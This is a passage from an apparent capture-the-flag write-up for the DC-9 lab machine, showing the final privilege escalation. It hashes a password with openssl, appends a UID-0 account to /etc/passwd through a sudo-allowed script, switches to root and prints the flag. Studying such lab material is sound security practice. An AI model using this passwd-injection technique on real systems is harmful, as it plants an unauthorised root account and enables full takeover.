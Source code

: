 First we need to choose a password, salt it and hash the result. openssl to the rescue.
Flags:
* `-1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
* `-salt salt` string to use as salt. I choose the string salt
* `password` clear text password we would like to use.

```console
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```

We need to put the above string into a file. If you recal, our user has no writing permissions to the `/opt/devstuff` directory we're in. Therefore that we need to find a directory we can write to. Easiest option is to use `/tmp`. I'll call my file `my_user`.
In order to stay aligned with `/etc/passwd` file format, we need to add some extra details:
* username - `hful` in this case
* salted + hashed password - the string created by openssl
* UID - as we want to create root, we need to use `0`
* GID - same as for UID
* home directory - we'll use `/root`
* shell - I prefer `bash`, you can also use `sh`

Which leave us with the following file content:

```console
$ cat /tmp/my_user
`hful:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash`
```
Now we can execute the ***test*** script as sudo
`sudo ./test /tmp/my_user /etc/passwd`

Verify our new user was added

```console
$ cat /etc/passwd
...
janitor2:x:1017:1017:Scott Morrison:/home/janitor2:/bin/bash
hful:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

Switch to the new user and verify we're root.

```console
fredf@dc-9:/opt/devstuff/dist/test$ su hful
Password: 
root@dc-9:/opt/devstuff/dist/test# id
uid=0(root) gid=0(root) groups=0(root)
```

Find and print the flag

```console
$ ls /root
theflag.txt
root@dc-9:/opt/devstuff/dist/test# cat /root/theflag.txt 


███╗   ██╗██╗ ██████╗███████╗    ██╗    ██╗ ██████╗ ██████╗ ██╗  ██╗██╗██╗██╗
████╗  ██║██║██╔════╝██╔════╝    ██║    ██║██╔═══██╗██╔══██╗██║ ██╔╝██║██║██║
██╔██╗ ██║██║██║     █████╗      ██║ █╗ ██║██║   ██║██████╔╝█████╔╝ ██║██║██║
██║╚██╗██║██║██║     ██╔══╝      ██║███╗██║██║   ██║██╔══██╗██╔═██╗ ╚═╝╚═╝╚═╝
██║ ╚████║██║╚██████╗███████╗    ╚███╔███╔╝╚██████╔╝██║  ██║██║  ██╗██╗██╗██╗
╚═╝  ╚═══╝╚═╝ ╚═════╝╚══════╝     ╚══╝╚══╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝╚═╝
                                                                             
Congratulations - you have done well to get to this point.

Hope you enjoyed DC-9.  Just wanted to send out a big thanks to all those
who have taken the time to complete the various DC challenges.

```